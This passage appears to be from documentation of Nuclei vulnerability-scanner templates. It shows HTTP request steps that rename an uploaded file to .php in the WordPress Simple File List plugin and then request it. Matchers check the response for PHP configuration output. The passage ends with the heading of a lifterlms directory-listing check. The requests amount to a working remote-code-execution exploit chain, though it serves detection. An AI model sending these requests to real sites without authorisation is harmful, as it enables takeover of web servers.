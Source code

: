 ### Step - 2

```
POST /wp-content/plugins/simple-file-list/ee-file-engine.php HTTP/1.1
Host: {{Hostname}}
X-Requested-With: XMLHttpRequest
Accept: */*
Content-Type: application/x-www-form-urlencoded

eeSFL_ID=1&eeFileOld=nuclei.png&eeListFolder=%2F&eeFileAction=Rename%7Cnuclei.php

```

### Step - 3

```
GET /wp-content/uploads/simple-file-list/nuclei.php HTTP/1.1
Host: {{Hostname}}
Accept: */*

```

### Matchers

**Type - word**

- words
  1. Nuclei - Open source project (github.com/projectdiscovery/nuclei)
  2. PHP Version
  3. Configuration Command
- part - body
- condition - and

**Type - word**

- words
  1. text/html
- part - header

**Type - status**

- status
  1. 200

---

# WordPress Plugin lifterlms Listing

## Description

- Searches for sensitive directories present in the lifterlms plugin.
- severity - info
- tags - wordpress,listing,plugin,edb
